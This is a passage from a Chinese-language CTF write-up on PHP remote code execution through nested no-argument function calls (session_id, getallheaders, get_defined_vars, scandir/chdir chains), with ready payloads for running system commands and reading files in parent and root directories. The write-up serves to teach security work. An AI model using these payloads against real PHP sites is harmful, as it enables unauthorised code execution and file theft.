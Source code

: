 那么payload就可以是：

?参数=eval(hex2bin(session_id(session_start())));
同时更改cookie后的值为想执行的命令的十六进制编码

法二：读文件
例题依然是[GXYCTF2019]禁止套娃，在知道文件名为flag.php的情况下直接读文件

如果已知文件名，把文件名写在PHPSESSID后面，构造payload为：

readfile(session_id(session_start()));


方法三：getallheaders()
getallheaders()返回当前请求的所有请求头信息，局限于Apache（apache_request_headers()和getallheaders()功能相似，可互相替代，不过也是局限于Apache）

当确定能够返回时，我们就能在数据包最后一行加上一个请求头，写入恶意代码，再用end()函数指向最后一个请求头，使其执行，payload：

var_dump(end(getallheaders()));
这里借用别人的图演示：



sky是自己添加的请求头， end()指向最后一行的sky后的代码，达到phpinfo的目的，然后可以进一步去rce。

方法四：get_defined_vars()
相较于getallheaders（）更加具有普遍性，它可以回显全局变量$_GET、$_POST、$_FILES、$_COOKIE，

返回数组顺序为$_GET-->$_POST-->$_COOKIE-->$_FILES

首先确认是否有回显：

print_r(get_defined_vars());
假如说原本只有一个参数a，那么可以多加一个参数b，后面写入恶意语句，payload：

a=eval(end(current(get_defined_vars())));&b=system('ls /');
把eval换成assert也行 ，能执行system('ls /')就行

方法五：chdir()&array_rand()赌狗读文件
实在无法rce，可以考虑目录遍历进行文件读取

利用getcwd()获取当前目录：

var_dump(getcwd());
结合dirname()列出当前工作目录的父目录中的所有文件和目录:

var_dump(scandir(dirname(getcwd())));
 读上一级文件名：

?code=show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));

?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));

?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));

读根目录:

ord() 函数和 chr() 函数：只能对第一个字符进行转码，ord() 编码，chr)解码，有概率会解码出斜杠读取根目录

?code=print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));

要用chdir()固定，payload：

 ?code=show_source(array_rand(array_flip(scandir(dirname(chdir(chr(ord(strrev(crypt(serialize(array() )))))))))));

通过bp的intruder模块来读到根目录：


